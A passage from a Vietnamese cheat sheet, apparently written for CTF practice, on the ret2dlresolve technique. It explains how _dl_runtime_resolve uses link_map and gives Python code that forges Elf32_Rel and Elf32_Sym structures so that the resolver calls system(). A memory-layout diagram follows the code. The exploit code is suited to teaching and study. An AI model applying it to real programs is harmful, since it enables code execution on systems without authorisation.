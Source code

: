 - `rel_offset` là offset của entry `Elf32_Rel` của 1 hàm với JMPREL. 

- `Link_map` - (0x804a004) không có gì khác ngoài một danh sách với tất cả các thư viện đã tải. `_dl_runtime_resolve` sử dụng danh sách này để giải quyết biểu tượng của hàm cần tìm. 

### [*] Tóm lại cần fake 

**1.** `Rel_offset` - Argument function `_dl_runtime_resolve` .

**2.** `Elf32_Rel->r_info` - Fake struct Elf32_Rel (Từ đây tính index rồi chuyển qua Elf32_Sym để tính toán).

**3.** `Elf32_Sym->st_name` - Fake struct Elf32_Sym .

**4.** `String "system"` .

- Để khai thác cần tính toán, lựa chọn vị trí và align phức tạp nữa nên một lần nữa tôi nhấn mạnh đây chỉ giống như `cheat sheet` => đọc và làm ví dụ từ writeup `0ctf - babystack` tôi để link trong mẫu 32 bit.

```python
### FAKE INFO 
# Compute offsets and forged structures
forged_ara = buf + 0x14				                  # buffer2 contain struct from buf + 0x14 = EXAMPLE

elf32_sym = forged_ara + 0x8	                     # size of elf32_rel
align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) 	   # align to 0x10
elf32_sym = elf32_sym + align

# fake rel_offset argument `_dl_runtime_resolve`
rel_offset = forged_ara - JMPREL		

# fake rel_entry->r_info 
index_sym = (elf32_sym - SYMTAB) // 0x10
r_info = (index_sym << 8) | 0x7

# fake st_name (sym_entry->st_name)
st_name = (elf32_sym + 0x10) - STRTAB

### FAKE STRUCT
# fake struct "Elf32_Rel *rel_entry"
fake_rel_struct = p32(elf.got["read"]) + p32(r_info)

# fake struct "Elf32_Sym *sym_entry"
fake_sym_struct = p32(st_name) + p32(0) 
fake_sym_struct += p32(0) + p32(0x12)
```

- Mô tả bằng hình

```c
             +--------+
r_offset     |GOT     |  0x300     
r_info       |0x2100  |  0x304
alignment    |AAAAAAAA|  0x308
st_name      |0x120   |  0x310
st_value     |0x0     |
st_size      |0x0     |
others       |0x12    |
sym_string   |"syst   |  0x320
             |em\x00" |
             +--------+
```

